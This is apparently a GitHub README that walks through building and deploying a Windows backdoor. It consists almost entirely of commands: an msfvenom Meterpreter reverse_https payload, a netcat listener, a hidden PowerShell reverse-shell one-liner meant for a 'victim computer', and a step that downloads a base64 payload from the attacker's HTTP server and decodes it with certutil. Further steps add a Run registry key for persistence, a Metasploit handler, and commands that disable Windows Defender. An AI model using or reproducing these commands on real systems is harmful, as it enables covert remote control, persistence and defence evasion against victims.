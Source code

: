 
## Create Backdoor
```
msfvenom -p windows/meterpreter/reverse_https lhost=192.x.x.x lport=1337  -f exe -o backdoor.exe
```
## Encode Backdoor
Go to [Here](https://www.base64encode.org) to Encode Backdoor

## Netcat
``` bash
nc -lvnp 1337
```
## Victim
Run this in Victim Computer
``` powershell
powershell -nop -W hidden -noni -ep bypass -c "$TCPClient = New-Object Net.Sockets.TCPClient('192.x.x.x', 1337);$NetworkStream = $TCPClient.GetStream();$StreamWriter = New-Object IO.StreamWriter($NetworkStream);function WriteToStream ($String) {[byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0};$StreamWriter.Write($String + 'SHELL> ');$StreamWriter.Flush()}WriteToStream '';while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {$Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1);$Output = try {Invoke-Expression $Command 2>&1 | Out-String} catch {$_ | Out-String}WriteToStream ($Output)}$StreamWriter.Close()"
```
## Make Directory
Make Directory to save backdoor
``` powershell
mkdir C:\Users\[User_name]\AppData\LocalLow\Temp
```
## Use python to make server

``` powershell 
python -m http.server
```
## Download String base64 backdoor
Download String From Your Server Python
``` powershell
(New-Object System.Net.WebClient).DownloadString("http://192.x.x.x:8000/file-encode.txt") > file.txt
```
## Ddecode Base64

``` powershell
certutil -decode C:\Users\[User Name]\AppData\LocalLow\Temp\file-encode.txt c:\Users\[User Name]\AppData\LocalLow\Temp\decode.exe
```
## Create Regkey
Create a Regkey to execute Backdoor when start Windows 
``` powershell
New-ItemProperty -Path HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run -Name "Sys" -Value "C:\Users\[User Name]\AppData\LocalLow\Temp\decode.exe" -PropertyType "String"
```
## Msfconsole
Run msfconsole

- Use exploit handler
``` msfconsole
use exploit/multi/handler
``` 
- Set Payload
``` msfconsole
set payload windows/meterpreter/reverse_https
```
- Set lhost
``` msfconsole
set lhost 192.x.x.x 
```
- Set lport
``` msfconsole
set lport 1337
```
- Exploit
``` msfconsole
exploit -j
```
## Disable Windows Defender
``` powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```
## Unlock Backdoor
```powershell
Unblock-File -Path C:\Users\[User Name]\AppData\LocalLow\Temp\decode.exe
```
## Execute Backdoor
```powershell
./decode.exe
```
